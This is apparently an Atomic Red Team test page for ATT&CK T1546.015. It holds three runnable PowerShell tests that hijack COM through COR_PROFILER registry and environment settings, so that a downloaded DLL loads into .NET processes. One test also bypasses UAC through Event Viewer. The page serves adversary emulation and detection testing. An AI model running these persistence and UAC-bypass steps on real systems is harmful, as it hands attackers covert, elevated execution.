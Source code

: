 # T1546.015 - Component Object Model Hijacking
## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1546.015)
<blockquote>Adversaries may establish persistence by executing malicious content triggered by hijacked references to Component Object Model (COM) objects. COM is a system within Windows to enable interaction between software components through the operating system.(Citation: Microsoft Component Object Model)  References to various COM objects are stored in the Registry. 

Adversaries can use the COM system to insert malicious code that can be executed in place of legitimate software through hijacking the COM references and relationships as a means for persistence. Hijacking a COM object requires a change in the Registry to replace a reference to a legitimate system component which may cause that component to not work when executed. When that system component is executed through normal system operation the adversary's code will be executed instead.(Citation: GDATA COM Hijacking) An adversary is likely to hijack objects that are used frequently enough to maintain a consistent level of persistence, but are unlikely to break noticeable functionality within the system as to avoid system instability that could lead to detection. </blockquote>

## Atomic Tests

- [Atomic Test #1 - COM Hijack Leveraging user scope COR_PROFILER](#atomic-test-1---com-hijack-leveraging-user-scope-cor_profiler)

- [Atomic Test #2 - COM Hijack Leveraging System Scope COR_PROFILER](#atomic-test-2---com-hijack-leveraging-system-scope-cor_profiler)

- [Atomic Test #3 - COM Hijack Leveraging registry-free process scope COR_PROFILER](#atomic-test-3---com-hijack-leveraging-registry-free-process-scope-cor_profiler)


<br/>

## Atomic Test #1 - COM Hijack Leveraging user scope COR_PROFILER
Creates user scope environment variables and CLSID COM object to enable a .NET profiler (COR_PROFILER).
The unmanaged profiler DLL (`atomicNotepad.dll`) executes when the CLR is loaded by the Event Viewer process.
Additionally, the profiling DLL will inherit the integrity level of Event Viewer bypassing UAC and executing `notepad.exe` with high integrity.
If the account used is not a local administrator the profiler DLL will still execute each time the CLR is loaded by a process, however,
the notepad process will not execute with high integrity.

**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| file_name | unmanaged profiler DLL | Path | PathToAtomicsFolder&#92;T1546.015&#92;bin&#92;T1546.015x64.dll|
| clsid_guid | custom clsid guid | String | {09108e71-974c-4010-89cb-acf471ae9e2c}|


#### Attack Commands: Run with `powershell`! 


```powershell
Write-Host "Creating registry keys in HKCU:Software\Classes\CLSID\#{clsid_guid}" -ForegroundColor Cyan
New-Item -Path "HKCU:\Software\Classes\CLSID\#{clsid_guid}\InprocServer32" -Value #{file_name} -Force | Out-Null
New-ItemProperty -Path HKCU:\Environment -Name "COR_ENABLE_PROFILING" -PropertyType String -Value "1" -Force | Out-Null
New-ItemProperty -Path HKCU:\Environment -Name "COR_PROFILER" -PropertyType String -Value "#{clsid_guid}" -Force | Out-Null
New-ItemProperty -Path HKCU:\Environment -Name "COR_PROFILER_PATH" -PropertyType String -Value #{file_name} -Force | Out-Null
Write-Host "executing eventvwr.msc" -ForegroundColor Cyan
START MMC.EXE EVENTVWR.MSC
```

#### Cleanup Commands:
```powershell
Write-Host "Removing registry keys" -ForegroundColor Cyan
Remove-Item -Path "HKCU:\Software\Classes\CLSID\#{clsid_guid}" -Recurse -Force
Remove-ItemProperty -Path HKCU:\Environment -Name "COR_ENABLE_PROFILING" -Force | Out-Null
Remove-ItemProperty -Path HKCU:\Environment -Name "COR_PROFILER" -Force | Out-Null
Remove-ItemProperty -Path HKCU:\Environment -Name "COR_PROFILER_PATH" -Force | Out-Null
```



#### Dependencies:  Run with `powershell`!
##### Description: #{file_name} must be present
##### Check Prereq Commands:
```powershell
if (Test-Path #{file_name}) {exit 0} else {exit 1} 
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory (split-path #{file_name}) -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1546.015/bin/T1546.015x64.dll" -OutFile "#{file_name}"
```




<br/>
<br/>

## Atomic Test #2 - COM Hijack Leveraging System Scope COR_PROFILER
Creates system scope environment variables to enable a .NET profiler (COR_PROFILER). System scope environment variables require a restart to take effect.
The unmanaged profiler DLL (`atomicNotepad.dll`) executes when the CLR is loaded by any process. Additionally, the profiling DLL will inherit the integrity
level of Event Viewer bypassing UAC and executing `notepad.exe` with high integrity. If the account used is not a local administrator the profiler DLL will
still execute each time the CLR is loaded by a process, however, the notepad process will not execute with high integrity.

**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| file_name | unmanaged profiler DLL | Path | PathToAtomicsFolder&#92;T1546.015&#92;bin&#92;T1546.015x64.dll|
| clsid_guid | custom clsid guid | String | {09108e71-974c-4010-89cb-acf471ae9e2c}|


#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
Write-Host "Creating system environment variables" -ForegroundColor Cyan
New-ItemProperty -Path 'HKLM:\SYSTEM\CurrentControlSet\Control\Session Manager\Environment' -Name "COR_ENABLE_PROFILING" -PropertyType String -Value "1" -Force | Out-Null
New-ItemProperty -Path 'HKLM:\SYSTEM\CurrentControlSet\Control\Session Manager\Environment' -Name "COR_PROFILER" -PropertyType String -Value "#{clsid_guid}" -Force | Out-Null
New-ItemProperty -Path 'HKLM:\SYSTEM\CurrentControlSet\Control\Session Manager\Environment' -Name "COR_PROFILER_PATH" -PropertyType String -Value #{file_name} -Force | Out-Null
```

#### Cleanup Commands:
```powershell
Write-Host "Removing system environment variables" -ForegroundColor Cyan
Remove-ItemProperty -Path 'HKLM:\SYSTEM\CurrentControlSet\Control\Session Manager\Environment' -Name "COR_ENABLE_PROFILING" -Force | Out-Null
Remove-ItemProperty -Path 'HKLM:\SYSTEM\CurrentControlSet\Control\Session Manager\Environment' -Name "COR_PROFILER" -Force | Out-Null
Remove-ItemProperty -Path 'HKLM:\SYSTEM\CurrentControlSet\Control\Session Manager\Environment' -Name "COR_PROFILER_PATH" -Force | Out-Null
```



#### Dependencies:  Run with `powershell`!
##### Description: #{file_name} must be present
##### Check Prereq Commands:
```powershell
if (Test-Path #{file_name}) {exit 0} else {exit 1} 
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory (split-path #{file_name}) -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1546.015/bin/T1546.015x64.dll" -OutFile "#{file_name}"
```




<br/>
<br/>

## Atomic Test #3 - COM Hijack Leveraging registry-free process scope COR_PROFILER
Creates process scope environment variables to enable a .NET profiler (COR_PROFILER) without making changes to the registry. The unmanaged profiler DLL (`atomicNotepad.dll`) executes when the CLR is loaded by PowerShell.

**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| file_name | unamanged profiler DLL | Path | PathToAtomicsFolder&#92;T1546.015&#92;bin&#92;T1546.015x64.dll|
| clsid_guid | custom clsid guid | String | {09108e71-974c-4010-89cb-acf471ae9e2c}|


#### Attack Commands: Run with `powershell`! 


```powershell
$env:COR_ENABLE_PROFILING = 1
$env:COR_PROFILER = '#{clsid_guid}'
$env:COR_PROFILER_PATH = '#{file_name}'
POWERSHELL -c 'Start-Sleep 1'
```

#### Cleanup Commands:
```powershell
$env:COR_ENABLE_PROFILING = 0
$env:COR_PROFILER = ''
$env:COR_PROFILER_PATH = ''
```



#### Dependencies:  Run with `powershell`!
##### Description: #{file_name} must be present
##### Check Prereq Commands:
```powershell
if (Test-Path #{file_name}) {exit 0} else {exit 1} 
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory (split-path #{file_name}) -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1546.015/bin/T1546.015x64.dll" -OutFile "#{file_name}"
```




<br/>
